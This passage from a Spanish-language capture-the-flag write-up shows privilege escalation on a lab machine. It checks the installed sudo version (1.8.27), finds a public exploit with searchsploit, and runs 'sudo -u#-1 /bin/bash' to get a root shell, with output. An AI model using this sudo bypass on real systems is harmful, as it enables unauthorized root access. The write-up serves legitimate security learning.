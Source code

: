 Vemos que podemos ejecutar `/bin/bash` como cualquier usuario del sistema a excepción de **root**. Si investigamos un poco, vemos que nos encontramos ante sudo de version 1.8.27:

```bash
hugo@blunder:~$ apt list 2>/dev/null | grep "^sudo"
sudo-ldap/eoan-updates,eoan-security 1.8.27-1ubuntu4.1 amd64
sudo-ldap/eoan-updates,eoan-security 1.8.27-1ubuntu4.1 i386
sudo/eoan-updates,eoan-security,now 1.8.27-1ubuntu4.1 amd64 [installed]
sudo/eoan-updates,eoan-security 1.8.27-1ubuntu4.1 i386
sudoku/eoan 1.0.5-2build3 amd64
sudoku/eoan 1.0.5-2build3 i386
hugo@blunder:~$
```

Y de dicha versión, existe un exploit público que nos puede ayudar a escalar privilegios:

```bash
❯ searchsploit sudo 1.8.27
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
sudo 1.8.27 - Security Bypass                                                                  | linux/local/47502.py
----------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Dicho exploit nos dice que podemos ejecutar el comando `sudo -u#-1 /bin/bash` y que se nos otorga una shell como **root**. Asi que vamos a probarlo (la contraseña que nos solicita es del usuario **hugo**).

```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
Password: 
root@blunder:/home/hugo# whoami
root
root@blunder:/home/hugo#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).
